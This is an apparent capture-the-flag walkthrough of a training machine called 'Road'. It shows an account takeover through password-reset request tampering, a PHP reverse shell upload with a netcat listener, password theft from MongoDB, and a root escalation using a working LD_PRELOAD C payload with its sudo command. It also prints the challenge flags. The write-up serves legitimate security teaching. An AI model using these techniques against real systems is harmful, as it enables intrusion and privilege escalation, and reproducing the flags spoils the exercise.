

# Road

## Description

Inspired by a real-world pentesting engagement

As usual, obtain the user and root flag.

## Initial Scan

As always, starting with an Nmap scan. The scan reveals two open ports:

* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e6:dc:88:69:de:a1:73:8e:84:5b:a1:3e:27:9f:07:24 (RSA)
|   256 6b:ea:18:5d:8d:c7:9e:9a:01:2c:dd:50:c5:f8:c8:05 (ECDSA)
|_  256 ef:06:d7:e4:b1:65:15:6e:94:62:cc:dd:f0:8a:1a:24 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Sky Couriers
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web

Since there are some rabbit holes that you might fall into, I'm going to get right to the point. First by running `dirsearch` on the main page I found a directory named `/v2`:

~~~
└─$ dirsearch -u http://$IP/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

[REDACTED]

[12:57:16] 301 -  313B  - /assets  ->  http://10.10.237.166/assets/
[12:57:22] 301 -  309B  - /v2  ->  http://10.10.237.166/v2/
[13:06:21] 403 -  277B  - /server-status
[13:25:56] 301 -  317B  - /phpMyAdmin  ->  http://10.10.237.166/phpMyAdmin/
~~~

Navigating to this directory, takes us to a login page with the path of `/v2/admin/login.html`:

I tried some default creds, but it didn't take me anyehere. I decided to register a test user to see what the webapp does. By clicking on "REGISTER" button, I was redirected to `/v2/admin/register.html`.

I filled the registeration form and clicked on "REGISTER":

After doing so, I was taken back to the login page and after entering my creds I logged in. Now we are in `/v2/index.php` which is our dashboard:

After I looked around a bit I found something very useful in `/v2/profile.php` (You can access this page by clicking on the profile picture and choosing "Profile"). Scrolling down the page, we can see the email of the admin:

As you can see, there is a field to upload files, but as the message says, we need to be an admin to do so. But on the bright side, we have admin's email: `admin@sky.thm`.

## Switching to admin

Again, it took me some time to find it, but I'm getting right to the point. On the left hand navbar I found an option named `ResetUser`(if the side navbar is not there go full screen and refresh the page. It's kinda buggy):

Clicking on it, takes us to `/v2/ResetUser.php` in which we can change our password:

As you can see, we can only enter our new password and the input field of the username is gray and uneditable. BUT, when I intercept the request using `BurpSuite`, I realized that I can change the username there:

So I changed the username to admin's email to see if I can trick the server to change admin's password and forwarded the request:

After doing so, I got redirected to the login page. To see if it worked I entered admin's email (`admin@sky.thm`) with the password I entered and I went through and I am in admin's account now:

## Reverse Shell

Now that we are admin, we can upload files from `/v2/profile.php`:

Thankfully there is no filter for the file types, so I uploaded a php reverse shell which you can get [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Save it in a file and you just need to change the IP and port (I chose 4444) in the reverse shell file:

After doing so, just click on "EDIT PROFILE" and the reverse shell will be uploaded. Now in order to call the shell, we need to know where the file is stored in.

I originally found it using `burp`, but we can also find it in the source code of `/v2/profile.php` in a comment:

~~~html
└─$ curl -s "http://10.10.237.166/v2/profile.php" | grep "v2/p" 
<!-- /v2/profileimages/ -->
~~~

Now we know that the reverse shell can be accessed from `http://<MACHINE IP>/v2/profileimages/<SHELL NAME>`. So just open a listener (`rlwrap nc -lvnp 4444`) and browse the url above and you should receive a shell.

I used `curl` to call the shell:

~~~
└─$ curl http://10.10.237.166/v2/profileimages/shell.php
~~~

Now I have a shell on my listener:

~~~
└─$ rlwrap nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.237.166] 56562
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 11:37:06 up 27 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
~~~

The first thing I did was spawning a TTY shell using a python one-liner:

~~~
$ which python3
/usr/bin/python3
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@sky:/$
~~~

## User Flag

I listed the `/home` directory and there is only one user named `webdeveloper`:

~~~
www-data@sky:/$ ls /home
webdeveloper
~~~

I headed to this user's home directory and found the user flag:

~~~
www-data@sky:/$ cd /home/webdeveloper
www-data@sky:/home/webdeveloper$ ls
user.txt
www-data@sky:/home/webdeveloper$ cat user.txt
63191e4ece37523c9fe6bb62a5e64d45
~~~

User flag: `63191e4ece37523c9fe6bb62a5e64d45`

## www-data -> webdeveloper (lateral move)

After enumerating the machine a bit, I found two interesting internal listening ports:

~~~
www-data@sky:/home/webdeveloper$ ss -antlp
State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process  
LISTEN  0        4096       127.0.0.53%lo:53             0.0.0.0:*              
LISTEN  0        128              0.0.0.0:22             0.0.0.0:*              
LISTEN  0        70             127.0.0.1:33060          0.0.0.0:*              
LISTEN  0        511            127.0.0.1:9000           0.0.0.0:*              
LISTEN  0        4096           127.0.0.1:27017          0.0.0.0:*              
LISTEN  0        151            127.0.0.1:3306           0.0.0.0:*              
LISTEN  0        511                    *:80                   *:*              
LISTEN  0        128                 [::]:22                [::]:*
~~~

As you can see, port `3306` is open which is the standard port for `MySQL` and port `27017` which is also open is the standard port for `MongoDB`.

First I connected to `MongoDB` using `mongo` and by listing the databases, I found a database named `backup`:

~~~
www-data@sky:/$ mongo
MongoDB shell version v4.4.6
connecting to: mongodb://127.0.0.1:27017/?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("4f3d862f-aacd-46c7-88cb-b6ac5c8ef42b") }
MongoDB server version: 4.4.6
Welcome to the MongoDB shell.

[REDACTED]

---
> show dbs
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
~~~

After using and listing the collections in that database I found a collection named `user`. I used `db.user.find()` to list the objects of collection `user`:

~~~
> use backup
switched to db backup
> show collections
collection
user
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
~~~

As you can see, we have user `webdeveloper`'s password: `BahamasChapp123!@#`. I used the password and switched to this user:

~~~
www-data@sky:/$ su webdeveloper
Password: BahamasChapp123!@#
webdeveloper@sky:/$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),24(cdrom),27(sudo),30(dip),46(plugdev)
~~~

Now that I know the password is valid, in order to get a stable shell, I connected to the machine via ssh:

~~~
└─$ ssh webdeveloper@$IP

[REDACTED]

webdeveloper@sky:~$
~~~

## Privilege Escalation

Now we need to gain root access. I ran `sudo -l` to check my sudo permissions:

~~~
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
~~~

As you can see we can run `/usr/bin/sky_backup_utility` as root with sudo and no password. The other thing is the existence of `LD_PRELOAD` which is an optional environmental variable containing one or more paths to shared libraries.

### Exploit

For exploiting this machine, we don't really need to know what `sky_backup_utility` does, since we have `LD_PRELOAD`. You can read this useful [blog](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) on exploiting this variable to fully understand what we are doing.

Here's how to switch to root. First we need to head to `/tmp` and create a file which I named `shell.c` with the following content (`nano` is available on the machine):

~~~
webdeveloper@sky:~$ cd /tmp
webdeveloper@sky:/tmp$ touch shell.c
webdeveloper@sky:/tmp$ nano shell.c
~~~

#### shell.c:

~~~c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
~~~

Now we need to compile it and make a shared object by running the following command (`.so` extention is the same as `.dll` in windows):

~~~
webdeveloper@sky:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
~~~

Now we can use the sudo permission for `sky_backup_utility` and execute the shared object as root and switch to root:

~~~
webdeveloper@sky:/tmp$ sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
root@sky:/tmp# whoami
root
~~~

## Root Flag

Now that we are root, we can head to `/root` and read the root flag:

~~~
root@sky:/tmp# cd
root@sky:~# ls
root.txt
root@sky:~# cat root.txt 
3a62d897c40a815ecbe267df2f533ac6
~~~

Root flag: `3a62d897c40a815ecbe267df2f533ac6`

## D0N3! ; )

Thanks to the creator(s) of this room!

Hope you had fun and learned something.

Have a g00d 0ne! : )